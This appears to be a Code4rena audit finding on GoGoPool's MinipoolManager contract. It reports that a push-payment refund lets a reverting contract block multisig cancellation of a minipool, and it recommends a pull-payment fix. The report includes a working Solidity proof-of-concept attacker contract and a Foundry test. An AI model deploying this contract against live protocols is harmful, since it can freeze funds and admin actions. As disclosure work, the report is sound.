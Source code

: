 # Original link
https://github.com/code-423n4/2022-12-gogopool-findings/issues/809
# Lines of code

https://github.com/code-423n4/2022-12-gogopool/blob/main/contracts/contract/MinipoolManager.sol#L664


# Vulnerability details

## Impact
The `MinipoolManager._cancelMinipoolAndReturnFunds` function implements a push payment mechanism for ETH (AVAX) transfers. This function is internally called by `cancelMinipoolByMultisig` function.

A malicious contract which reverts on all plain ETH transfer can be used to prevent a multisig from canceling the Minipool. Since the Minipool now cannot move to `Canceled` state, the only state possible forward for the Minipool is the `Launched` state or just be in the `Prelaunch` state forever. Both the scenarios are completed unintentional and unexpected for the  MinipoolManager contract.

## Proof of Concept
Test case:

```solidity
contract Malicious {
	receive() external payable { revert("Not Receivable"); }
	function stakeGGP(address staking, ERC20 ggp, uint256 amount) public {
		ggp.approve(staking, amount);
		Staking(staking).stakeGGP(amount);
	}
	function createMinipool(address manager, address nodeID, uint256 avaxAssignmentRequest) public payable {
		MinipoolManager(manager).createMinipool{value: msg.value}(nodeID, 0, 0, avaxAssignmentRequest);
	}
}

contract MinipoolManagerTest is BaseTest {
	address private attacker;
	function setUp() public override {
		super.setUp();
		attacker = getActorWithTokens("attacker", MAX_AMT, MAX_AMT);
	}

	function testBug() public {
		uint256 depositAmt = 1000 ether;
		uint256 avaxAssignmentRequest = 1000 ether;
		uint128 ggpStakeAmt = 200 ether;
		address nodeID = address(1009);

		Malicious maliciousC = new Malicious();

		vm.startPrank(attacker);
		ggp.transfer(address(maliciousC), MAX_AMT);
		maliciousC.stakeGGP(address(staking), ggp, ggpStakeAmt);
		maliciousC.createMinipool{value: depositAmt}(address(minipoolMgr), nodeID, avaxAssignmentRequest);
		vm.stopPrank();

		bytes32 errorCode = "INVALID_NODEID";
		vm.prank(address(rialto));
		vm.expectRevert("ETH_TRANSFER_FAILED");
		minipoolMgr.cancelMinipoolByMultisig(nodeID, errorCode);
	}
}
```

## Tools Used
Manual review

## Recommended Mitigation Steps
The `MinipoolManager._cancelMinipoolAndReturnFunds` should implement a pull payment mechanism in which the recipient itself has to come and trigger the payment transaction. 